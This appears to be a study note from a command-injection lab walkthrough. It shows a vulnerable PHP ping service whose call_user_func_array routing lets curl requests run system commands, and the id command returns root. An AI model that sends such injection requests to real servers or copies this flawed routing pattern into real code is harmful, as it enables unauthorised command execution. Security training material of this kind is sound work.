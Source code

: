 ﻿Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Proceed to the end of this section and click onÂ `Click here to spawn the target system!`Â or theÂ `Reset Target`Â icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target service and follow along.

Suppose we are assessing such a connectivity-checking service residing inÂ `http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.


```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

A function calledÂ _ping_Â is defined, which takes two argumentsÂ _host_url_ip_Â andÂ _packets_. The request should look similar to the following.Â `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.

```shell-session
smoothment@htb[/htb]$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

- The code also checks if theÂ _packets_'s value is more than 4, and it does that via an array. So if we issue a request such asÂ `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get anÂ _Only 1-4 packets!_Â error.
- A variable calledÂ _cmd_Â is then created, which forms the ping command to be executed. Two values are "parsed",Â _packets_Â andÂ _host_url_.Â [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php)Â is used to escape theÂ _host_url_'s value. According to PHP's function reference,Â _escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include exec(), system() shell_exec() and the backtick operator._Â If theÂ _host_url_'s value was not escaped, the below could happen.
![Pasted image 20250219153637.png](../../../../IMAGES/Pasted%20image%2020250219153637.png)
- The command specified by theÂ _cmd_Â parameter is executed with the help of theÂ _shell_exec()_Â PHP function.
- If the request method is GET, an existing function can be called with the help ofÂ [call_user_func_array()](https://www.php.net/manual/en/function.call-user-func-array.php). TheÂ _call_user_func_array()_Â function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead ofÂ `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3`Â an attacker could issue a request as follows.Â `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```


# Question
---

![Pasted image 20250219153716.png](../../../../IMAGES/Pasted%20image%2020250219153716.png)

If we test `id`, we get the following:

```
curl http://10.129.202.133:3003/ping-server.php/system/id

uid=0(root) gid=0(root) groups=0(root)
```


